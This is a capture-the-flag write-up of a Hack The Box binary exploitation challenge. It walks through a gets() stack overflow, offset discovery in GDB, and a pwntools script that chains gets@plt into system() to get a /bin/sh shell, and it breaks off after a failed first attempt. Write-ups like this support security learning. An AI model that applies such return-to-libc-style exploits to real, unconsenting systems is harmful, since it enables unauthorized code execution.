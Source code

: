 # Sound of Silence

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/c00cb1d6-aa6b-4bff-b60d-65115285d01f)


> Write-up author: jon-brandy

## Lessons Learned:
1. Stack-Based Exploitation.
2. Manipulate return address to gets(), then use system() as it's argument.

## DESCRIPTION:

<p align="justify">Navigate the shadows in a dimly lit room, silently evading detection as you strategize to outsmart your foes. Employ clever distractions to divert their attention, paving the way for your daring escape!</p>

## STEPS:
1. In this challenge, we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/5e40093d-ac65-4955-9bb6-93899c3d2a2f)


> BINARY PROTECTIONS

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/e53e26ae-0d6c-457f-a5d7-e643dec8c82e)


2. Upon reviewing the decompiled code on Ghidra, it's very clear that the vuln reside at the **gets()** usage.
3. There are no bound checking, even the canary and PIE is dead. Also there is a **system()** call.
4. Hence, it's easier for us to obtain RCE.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/921676d0-52ff-4216-ac33-93d6275740da)


5. BUT the problem here, remembering it does call system(), hence we can't identify RIP offset like usual with it.
6. Although we can do it manually, but still I preferred using GDB.
7. The method is to do **set follow-fork-mode parent** at GDB.
8. So now the GDB is following the parent process, not the child process.
9. Simply send +16 bytes or even more than the available buffers to hold by the input variable.
10. We shall gained segfault.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4860fb58-d5a6-4801-b9fc-b20a8200d512)


![image](https://github.com/jon-brandy/hackthebox/assets/70703371/cbbd5a52-3c99-44fb-9230-93511d71b80c)


11. Nice! Now, what are our objectives? There is no **write()**, **read()**, **printf()**, or **puts()** call.
12. BUT there is **system()**.
13. Our objective is to return to `gets@plt`, then pass `system()` as it's arg.
14. Finally, simply passing the `/bin/sh\x00` strings.
15. Here's the crafted script.

> SCRIPT

```py
from pwn import *

exe = './sound_of_silence'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = process(exe)

p = flat([
    cyclic(40),
    elf.sym['gets'],
    elf.sym['system']
])

sh.sendline(p)
sh.sendline(b'/bin/sh\x00')

sh.interactive()
```

> RESULT

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b3918398-f44c-43fb-8cc3-cb832f15354e)


16. Interesting, we failed to get shell. Based from the received bytes, it said `/bin.sh` not found.
17. Noticed our `/` is bit-flipped (?)
18. Upon debugging our input by set breakpoints at **main()**, we found an interesting pointer stored at the RDI upon step into the **gets()** call.

> AFTER THE GETS CALL, PASS FEW BYTES

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/b588ca19-e6ba-4ccf-a788-b20f16c38bbc)


> RESULT


